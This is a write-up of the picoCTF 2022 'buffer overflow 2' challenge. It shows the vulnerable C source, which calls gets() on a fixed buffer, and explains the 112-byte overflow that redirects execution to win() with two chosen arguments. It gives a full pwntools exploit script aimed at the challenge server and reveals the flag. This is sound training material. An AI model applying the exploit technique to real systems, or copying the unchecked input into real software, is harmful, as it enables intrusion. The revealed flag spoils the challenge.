

# picoCTF 2022 buffer overflow 2 (Binary Exploitation 300 points)
The challenge is the following,

 

We are also given the executable file [vuln](./files/vuln) and its source code [vuln.c](./files/vuln.c),

```
1.  #include <stdio.h>
2.  #include <stdlib.h>
3.  #include <string.h>
4.  #include <unistd.h>
5.  #include <sys/types.h>
6. 
7.  #define BUFSIZE 100
8.  #define FLAGSIZE 64
9. 
10. void win(unsigned int arg1, unsigned int arg2) {
11.   char buf[FLAGSIZE];
12.   FILE *f = fopen("flag.txt","r");
13.   if (f == NULL) {
14.     printf("%s %s", "Please create 'flag.txt' in this directory with your",
15.                     "own debugging flag.\n");
16.     exit(0);
17.   }
18. 
19.   fgets(buf,FLAGSIZE,f);
20.   if (arg1 != 0xCAFEF00D)
21.     return;
22.   if (arg2 != 0xF00DF00D)
23.     return;
24.   printf(buf);
25. }
26. 
27. void vuln(){
28.   char buf[BUFSIZE];
29.   gets(buf);
30.   puts(buf);
31. }
32. 
33. int main(int argc, char **argv){
34. 
35.   setvbuf(stdout, NULL, _IONBF, 0);
36.   
37.   gid_t gid = getegid();
38.   setresgid(gid, gid, gid);
39. 
40.   puts("Please enter your string: ");
41.   vuln();
42.   return 0;
43. }
```

Here, `gets()` is used in line 29, which is a vulnerable function because it doesn't check for overflow, so I will be exploiting that. I saw that the function `win()` is the function that contains the flag reader, so this is the function I want to jump to. I used `pwndbg` and used `info functions` like in [buffer overflow 1](https://github.com/LambdaMamba/CTFwriteups/tree/main/picoCTF_2022/Binary_Exploitation/buffer_overflow_1).

 

I saw that `win()` was in `0x08049296`, so this is the return address that I want to jump to. However, unlike [buffer overflow 1](https://github.com/LambdaMamba/CTFwriteups/tree/main/picoCTF_2022/Binary_Exploitation/buffer_overflow_1), I had to also pass arguments `0xCAFEF00D` and `0xF00DF00D` to the `win()` function, as lines 20 and 22 checks for these.

Here, I saw that the buffer in line 28 can be overflowed with 112 bytes to rewrite the return address, so I prepared 112 `A`,

`a = 'A' * 112`

And I want to jump to the address `0x08049296` so I swapped the endian,

`a += "\x96\x92\x04\x08"
`

I needed the input parameters to `win()` to be `0xCAFEF00D` and `0xF00DF00D`, so I first prepared a padding of 4 bytes,

`a += "CCCC"`

Then I prepared `0xCAFEF00D` by swapping the endian,

`a += "\x0d\xf0\xfe\xca"`

Then I prepared `0xF00DF00D` by swapping the endian,

`a += "\x0d\xf0\x0d\xf0"`


I put everything together into the following [exploit2.py](./files/exploit2.py),

```
from pwn import *

#elf = context.binary = ELF("./vuln")
context.arch = 'amd64'
gs = '''
continue
'''

def start(server=True):
        if(server):
                return remote('saturn.picoctf.net', 52578)
        else:

                return process(['./vuln'])

io = start()

#io.recvuntil(">>")
a = 'A' * 112
a += "\x96\x92\x04\x08"
a += "CCCC"
a += "\x0d\xf0\xfe\xca"
a += "\x0d\xf0\x0d\xf0"
io.sendline(a)

io.interactive()

```

I executed the script and passed the inputs to the remote server,


 

Therefore, the flag is,

`picoCTF{argum3nt5_4_d4yZ_eb489c7a}`
